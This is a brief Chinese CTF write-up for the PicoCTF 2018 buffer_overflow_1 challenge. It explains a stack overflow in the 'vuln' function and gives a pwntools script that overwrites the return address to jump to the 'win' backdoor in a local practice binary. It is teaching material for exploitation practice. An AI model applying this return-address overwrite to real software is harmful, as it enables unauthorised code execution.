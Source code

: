 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240103130117204](../assets/img/old_imgs/image-20240103130117204.png)

![image-20240103130158706](../assets/img/old_imgs/image-20240103130158706.png)

- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

